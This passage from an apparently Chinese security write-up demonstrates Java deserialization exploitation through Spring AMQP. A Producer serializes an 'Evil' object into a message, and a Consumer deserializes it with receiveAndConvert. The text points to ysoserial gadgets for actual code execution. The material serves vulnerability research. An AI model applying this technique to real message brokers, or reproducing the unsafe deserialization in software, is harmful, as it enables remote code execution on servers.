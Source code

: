 	import java.io.*;

	public class Producer {

    public static void main(String[] args) {
      ApplicationContext context = new AnnotationConfigApplicationContext(HelloWorldConfiguration.class);
      AmqpTemplate amqpTemplate = context.getBean(AmqpTemplate.class);

        try {
            //amqpTemplate.convertSendAndReceive("exchange", "routingkey", getMessage());
            amqpTemplate.convertAndSend(getMessage());
        } catch (IOException e) {
            e.printStackTrace();
        }
        //amqpTemplate.convertAndSend("Hello World");
      System.out.println("Sent: Hello World");
    }

    public static Message getMessage() throws IOException {
        MessageProperties messageProperties = new MessageProperties();
        messageProperties.setContentType("application/x-java-serialized-object");
        Message message = new Message(getbBody(), messageProperties);
        return message;
    }

    public static byte[] getbBody() throws IOException {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        Evil evil = new Evil();
        oos.writeObject(evil);
        byte[] str = baos.toByteArray();
        return str;

    }

	}

消费者

	package test;
	import org.springframework.amqp.core.AmqpTemplate;
	import org.springframework.context.ApplicationContext;
	import org.springframework.context.annotation.AnnotationConfigApplicationContext;
	
	public class Consumer {
	
	   public static void main(String[] args) {
	      ApplicationContext context = new AnnotationConfigApplicationContext(HelloWorldConfiguration.class);
	      AmqpTemplate amqpTemplate = context.getBean(AmqpTemplate.class);
	      System.out.println("Received: " + amqpTemplate.receiveAndConvert());
	   }
	
	}

当然Evil不是默认存在的class，要想真正的执行，可以参考ysoserial里面的Gadgets，这系列文章之前写了很多，大家可以自己去调试一下。
最后补一张利用成功的图
![](http://pic.findbugs.top/18-2-11/87868417.jpg)
##  参考链接

